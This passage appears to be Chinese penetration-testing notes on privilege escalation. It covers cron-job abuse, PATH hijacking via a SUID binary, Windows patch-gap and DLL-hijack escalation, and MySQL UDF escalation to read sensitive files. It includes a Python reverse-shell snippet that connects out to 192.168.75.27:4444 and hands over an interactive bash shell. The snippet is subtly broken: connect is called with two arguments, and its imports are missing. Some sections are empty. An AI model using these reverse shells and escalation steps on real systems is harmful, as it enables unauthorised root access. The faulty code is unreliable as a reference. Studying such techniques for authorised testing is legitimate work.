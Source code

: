         注：低权限用户并不能直接通过`crontab -l -u roo`t来查看Root用户的计划任务
        
    - 根据计划任务内容选取要执行的文件，查看其权限
    - 选取属主是root且可写的文件，实现反弹shell的功能
        
        ```python
        # 反弹shell功能代码
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect('192.168.75.27', 4444)
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(['/bin/bash', '-i'])
        ```
        
        在本地监听端口4444接收反弹shell
        
- **环境变量劫持提权**
    - 前提条件
        - 文件具备SUID权限
        - 文件的所有人和所属组是root
    - 使用C语言程序，使用`system`函数调用系统`cat`命令进行提权
    - 进入`/tmp`目录创建一个“cat”文件，文件内容是“/bin/sh”
    - 使用`sudo`命令编译源文件生成可执行文件，并赋予SUID权限（4777）
    - 满足提权条件后，添加“/tmp”目录到环境变量后运行可执行程序即可
- **Docker容器提权**
    
    

### Windows系统权限提升

- **本地漏洞提权**
    
    利用Windows系统本身存在的一些系统内核溢出漏洞，但未曾打相应的补丁，测试人员可以通过对比查询出的补丁信息来查找缺失的补丁号，通过缺失补丁号查找对照相应的系统版本漏洞的EXP。
    
- **应用劫持提权**
    
    如Notepad++的动态链接库劫持漏洞。
    

### 数据库权限提升

渗透过程爆破获取了MySQL服务Root用户的弱口令密码，此时就可以利用MySQL服务进行用户自定义函数(UDF)反弹shell提权

- **MySQL提权**
    - 登录MySQL，查看版本，指定数据库，并检查数据库的插件路径，用于后续的文件写入
    - 在Kali Linux系统中使用SearchSploit工具搜索MySQL数据库的UDF提权脚本
        
        查看脚本内容，代码注释中有使用方法
        
    - 将提权脚本上传到目标主机的`/tmp`目录下
    - 编译提权脚本得到动态链接库文件 (so)
    - 登录数据库，按照源码内注释的内容使用，先创建表，再读取动态链接库的内容插入表中
    - 查询表的内容，并将动态链接库文件写出到数据库的插件路径中
    - 使用写出的文件创建函数
    - 使用创建的函数读取敏感文件
- **Oracle提权**
    